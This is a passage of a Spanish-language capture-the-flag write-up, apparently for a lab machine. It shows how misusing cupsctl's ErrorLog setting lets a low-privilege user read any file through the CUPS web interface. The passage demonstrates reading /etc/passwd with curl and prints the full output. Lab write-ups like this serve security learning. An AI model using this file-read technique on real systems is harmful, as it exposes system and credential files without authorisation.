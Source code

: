 Después, veo que en la función **interactive()**, ahora **ErrorLog=** vale a una ruta (por lo que menciona es una ruta del **/tmp**) y con **curl** consulta el contenido de **error_log**:
```bash
valid_filepath='^(/[^/ ]*)+/?$'
        if ! [[ $interactive =~ $valid_filepath ]]\
        || [[ $interactive == */ ]]; then
          invalid_argument
        else
        cupsctl WebInterface=Yes\
        && cupsctl ErrorLog="$interactive"\
        && user_input=$(curl --head --silent\
        http://localhost:631/admin/log/error_log)
```

Entiendo que con esto, le podemos asignar una ruta al parámetro **ErrorLog=** con **cupsctl** para asignarle un archivo que se almacene ahí, para después poder ver el contenido de ese parámetro en el directorio web de **/admin/log/error_log**.

Vamos a comprobarlo, asignemos al parámetro **ErrorLog=** la ruta **/etc/passwd** y luego con **curl** vamos a consultar la URL donde se almacena el mensaje de ese parámetro:
```bash
lp@antique:~$ cupsctl ErrorLog=/etc/passwd
cupsctl ErrorLog=/etc/passwd
lp@antique:~$ curl http://localhost:631/admin/log/error_log
curl -s -X GET http://localhost:631/admin/log/error_log
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```
